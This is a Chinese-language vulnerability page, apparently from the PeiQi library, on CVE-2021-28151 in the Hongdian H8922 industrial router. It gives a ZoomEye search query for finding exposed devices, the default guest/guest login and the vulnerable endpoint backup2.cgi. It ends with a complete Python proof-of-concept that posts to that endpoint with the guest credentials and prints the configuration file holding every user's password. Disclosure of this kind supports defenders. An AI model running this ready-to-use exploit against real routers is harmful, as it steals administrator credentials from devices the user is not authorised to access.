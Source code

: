 ```yaml
---
title: 宏电 H8922 后台管理员信息泄露漏洞 CVE-2021-28151
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - 网络设备漏洞
 - 宏电
---
```


# 宏电 H8922 后台管理员信息泄露漏洞 CVE-2021-28151

## 漏洞描述

宏电 H8922 后台存在管理员信息泄露漏洞，攻击者使用任意账号登录后访问特殊的Url即可获取所有用户的账号和密码

## 漏洞影响

> [!NOTE]
>
> 宏电 H8922 

## ZoomEy

> [!NOTE]
>
> app:"Hongdian H8922 Industrial Router"

## 漏洞复现

登录后台(存在访客用户默认账号密码 guest/guest)

漏洞存在于 backup2.cgi 文件中

![](/img/20210924013745605557.png)

分析后可得知实际运行后将会读取 **/tmp/hdconfig/cli.conf** 配置文件

![](/img/20210924013745813898.png)

其中配置文件中是含有所有用户密码以及敏感配置信息的

## 漏洞POC

```python
import requests
import sys
import random
import re
import base64
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mTitle  : 宏电 H8922 后台管理员信息泄露漏洞 CVE-2021-28151                  \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/backup2.cgi"
    headers = {
        "Content-Type": "application/x-www-form-urlencoded",
        "Authorization": "Basic Z3Vlc3Q6Z3Vlc3Q="
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/backup2.cgi.... \033[0m".format(target_url))
        if 'service webadmin' in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,存在访客账号 guest/guest 成功读取配置文件 \033[0m".format(target_url))
            print("\033[36m[o] 响应为:\n{} \033[0m".format(response.text))
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](/img/20210924013746112528.png)